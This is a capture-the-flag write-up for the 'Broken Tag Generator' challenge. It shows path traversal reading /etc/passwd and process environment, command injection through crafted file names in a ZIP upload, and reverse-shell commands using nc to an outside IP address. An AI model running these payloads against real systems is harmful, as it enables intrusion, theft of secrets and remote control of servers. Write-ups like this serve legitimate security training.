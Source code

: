 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a file for executing a reverse shell named `t.jpg`:
```
nc <your IP address> 4444 -e /bin/bash
```
Create an executor file:
```
touch \'\`bash\ t.jpg\`\;\'.jpg
```
Create the ZIP file including these two file for upload:
```
zip joergen.zip t.jpg \'\`bash\ t.jpg\`\;\'.jpg
```
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.

```
touch joergen.jpg
zip joergen.zip joergen.jpg
printf "@ joergen.jpg\n@=\';nc 93.211.52.129 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUyNDYyNDc1OSwtODIzMDUwODYxLDEyOT
M3MjA0MzksMTM5NTc5NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3
NDExLC01NzY2MTAwNzUsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMz
k4NDkxNDYxLDExNTE1NTY4OTYsMjM4NDYwMjcyLDE5MzMzNjE3
ODcsLTE0Njc2MTUyNjIsLTI0Mzk0Mjg2NiwxMzEyMDU2NDUzLD
kyMDQ1NTg2NSwtMTYwNjA3ODA0MF19
-->